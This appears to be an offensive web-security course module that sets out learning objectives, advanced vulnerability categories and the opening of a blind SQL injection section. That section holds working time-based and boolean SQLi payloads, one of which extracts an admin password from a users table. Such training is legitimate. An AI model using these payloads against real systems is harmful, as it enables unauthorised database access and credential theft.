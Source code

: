 # 📚 Module 3.1: Advanced Web Application Security

> **Duration:** Week 1-2 (8-10 hours)  
> **Prerequisites:** Level 2 Complete  
> **Difficulty:** 🔴 Advanced

## 🎯 Learning Objectives

By the end of this module, you will be able to:
- Identify and exploit advanced web application vulnerabilities beyond OWASP Top 10
- Chain multiple vulnerabilities to create complex attack scenarios
- Bypass modern web application security controls and filters
- Perform advanced authentication and authorization attacks
- Exploit business logic flaws and race conditions
- Conduct comprehensive API security assessments
- Develop custom tools and exploits for specific vulnerabilities

---

## 🌐 Advanced Web Application Threat Landscape

### 🔍 Beyond OWASP Top 10

While the OWASP Top 10 covers the most common vulnerabilities, advanced attackers focus on:

```
Traditional Vulnerabilities → Advanced Exploitation Techniques
        (OWASP Top 10)      →     (APT-Style Attacks)
```

#### **Advanced Vulnerability Categories**
1. **Business Logic Flaws** - Application-specific vulnerabilities in workflows
2. **Race Conditions** - Time-based vulnerabilities in concurrent operations
3. **Type Confusion** - Exploiting language-specific type handling
4. **Prototype Pollution** - JavaScript object manipulation attacks
5. **Template Injection** - Server-side template engine exploitation
6. **Deserialization Attacks** - Object serialization vulnerabilities
7. **GraphQL Injection** - Query language specific attacks
8. **API Security Flaws** - REST/GraphQL/gRPC vulnerabilities

---

## 🔓 Advanced Injection Techniques

### 💉 SQL Injection Evolution

#### **Blind SQL Injection Mastery**

**Time-Based Blind SQLi:**
```sql
-- Boolean-based blind detection
' AND (SELECT COUNT(*) FROM users) > 0 --

-- Time-based blind detection
' AND (SELECT SLEEP(5)) --
' AND (SELECT PG_SLEEP(5)) --
' AND (SELECT DBMS_PIPE.RECEIVE_MESSAGE('test',5) FROM dual) --

-- Advanced time-based payload
' AND (SELECT CASE WHEN (ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)))>64 THEN SLEEP(5) ELSE 0 END) --
```
